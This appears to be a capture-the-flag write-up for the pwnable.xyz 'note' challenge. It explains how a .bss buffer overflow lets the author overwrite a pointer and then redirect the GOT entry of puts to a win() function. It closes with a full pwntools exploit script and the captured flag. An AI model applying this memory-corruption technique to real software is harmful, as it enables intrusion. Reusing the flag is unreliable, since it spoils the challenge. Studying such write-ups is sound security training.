

# pwnable.xyz - note
Link to binary: https://pwnable.xyz/redisfiles/challenge_37.gz

Description: *Note taking 101*
 
## binary
Running `checksec` on the binary, shows that the following protections are enabled:  


## ./challenge
Running the binary prints a menu and lets us edit a **note** or a **description**.  
We can specify the length of the note which might be interesting. Also, the fact that **RELRO** and **PIE** are both disabled might hint to a **got overwrite**.   
Let's decompile with **IDA** to have a better look.

## IDA
### main()


The `main()` function just prints the menu and calls either `edit_note()` or `edit_desc()` depending on user input.

### edit_note()


The `edit_note()` function takes an integer from the user, which represents the note length and allocates a buffer of that size. It then asks the user to input a note, which can't be larger than the buffer's size. The buffer with the note is copied to an `s` variable, and the buffer is freed.

### edit_desc()


The `edit_desc()` function checks if `buf` is allocated. If not, it allocates 32 bytes and reads from standard input into the buffer and up to 32 bytes.

## vulnerability
Both `s` and `buf` are global variables, so they can be found in the .bss section. Checking the .bss section with IDA, we can see that `s` is 32 bytes long and `buf` is a pointer to the memory located right after `s`. Since we control how many bytes will be written to `s`, we are able to overflow and overwrite `buf`. Then by using `edit_desc()` we can modify the memory that `buf` is pointing to.

## attack plan
Our goal is to call `win()` which prints the flag, but it isn't used anywhere in the code.  
We can send 32 bytes to fill `s` and then the address of a function in the **got table** that we want to **overwrite** and make it point to `win()`. A good candidate here is `puts()`. This way, on the next call of `puts()`, `win()` will get called instead.

## debugging
We choose option `1. Edit note.` and send 32 bytes along with the address of puts() at GOT table `elf.got.puts`, which will overwrite `buf`.  
Then we choose `2. Edit desc.` and send the address of `win()`.  
Here is what buf looks like before writing the address of win:  


Now if we check `puts()` in the GOT we can see that it's overwritten by `win()`:


Then we provide an invalid option to call `puts("Invalid")` and we get the flag.

## exploit  

```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b edit_note
b edit_desc
'''

IP = "svc.pwnable.xyz"
PORT = 30016

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()

    io.sendlineafter("> ", "1")
    io.sendlineafter("? ", "40")
    payload = flat([
        "A" * 32,
        elf.got.puts
    ])
    io.sendafter(": ", payload)

    io.sendlineafter("> ", "2")
    io.sendlineafter(": ", pack(elf.sym.win))

    io.sendlineafter("> ", "3")

    io.interactive()

if __name__ == "__main__":
    pwn()
```

`FLAG{useless_if_u_cant_print_the_note}`